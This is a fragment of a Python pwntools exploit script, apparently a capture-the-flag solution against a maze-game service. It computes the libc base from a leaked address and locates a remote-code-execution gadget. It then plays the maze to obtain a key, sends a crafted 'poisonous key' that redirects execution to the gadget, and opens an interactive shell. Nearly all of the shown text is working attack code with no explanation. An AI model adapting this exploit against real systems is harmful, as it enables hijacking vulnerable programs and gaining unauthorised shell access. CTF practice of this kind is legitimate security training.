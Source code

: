 ```python
libc_base_addr = libc_start_main_addr - libc_start_main_offset
print 'libc_start_main_offset: ', hex(libc_start_main_offset)
print 'libc_start_main_addr:   ', hex(libc_start_main_addr)
print 'libc_base_addr:         ', hex(libc_base_addr)

# find rce gadget address
libc_rce_gadget_addr = libc_base_addr + libc_rce_gadget_offset
print 'libc_rce_gadget_offset: ', hex(libc_rce_gadget_offset)
print 'libc_rce_gadget_addr:   ', hex(libc_rce_gadget_addr)

# start the game
p.sendline('3')
print p.recvuntil('> ')

key = None
current_direction = 'north'

# play the game
while True:
    p.sendline('go ' + current_direction)
    maze = p.recvuntil('> ')
    facing_wall = 'There is a wall!' in maze

    p.sendline('search')
    maze = p.recvuntil('> ')

    if 'You found a key!' in maze and key is None:
        p.sendline('pick up')
        maze = p.recvuntil('> ')
        key = re.search('You pick up the key: ([0-9a-f]+)', maze).group(1)

    if 'You found a locked chest!' in maze:
        if key is not None:
            p.sendline('open')
            print p.recvuntil('> ')

            # enter the poisonous key to change offset to the "error" function
            poisonous_key = create_poisonous_key(key, libc_rce_gadget_addr)
            p.sendline(poisonous_key)
            p.recvuntil('Press enter to return to the menue')

            # return to the main menu
            p.sendline()
            p.recvuntil('> ')

            # spawn shell
            p.sendline('0')
            p.interactive()
            exit()

    print maze

    if facing_wall:
        current_direction = left_of(current_direction)
    else:
        current_direction = right_of(current_direction)
```
